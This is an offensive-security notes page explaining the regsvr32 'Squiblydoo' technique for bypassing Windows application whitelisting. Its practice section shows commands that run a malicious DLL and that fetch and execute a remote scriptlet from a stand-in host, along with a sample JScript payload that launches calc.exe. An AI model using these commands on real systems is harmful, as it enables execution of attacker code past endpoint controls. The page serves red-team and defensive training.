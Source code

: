 # RegSrv32

## Theory

Regsvr32 is a Microsoft command-line tool to register and unregister Dynamic Link Libraries (DLLs) in the Windows Registry. Besides its intended use, regsvr32.exe binary can also be used to execute arbitrary binaries and bypass the Windows Application Whitelisting.

Application Whitelisting is a Microsoft endpoint security feature that prevents malicious and unauthorized programs from executing in real-time. Application whitelisting is rule-based, where it specifies a list of approved applications or executable files that are allowed to be present and executed on an operating system.

## Practice

{% tabs %}
{% tab title="Regsvr32.exe" %}
```bash
#Execute dll
c:\Windows\System32\regsvr32.exe c:\Users\pwn\Downloads\malicious.dll

#Or
c:\Windows\System32\regsvr32.exe /s /n /u /i:http://example.com/file.sct Downloads\malicious.dll
```

With the .sct file as:

```bash
#http://example.com/file.sct
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```

The MITRE ATT\&CK framework refers to this technique as [Signed Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/livingofftheland" %}

{% embed url="https://www.ired.team/offensive-security/code-execution/t1117-regsvr32-aka-squiblydoo" %}
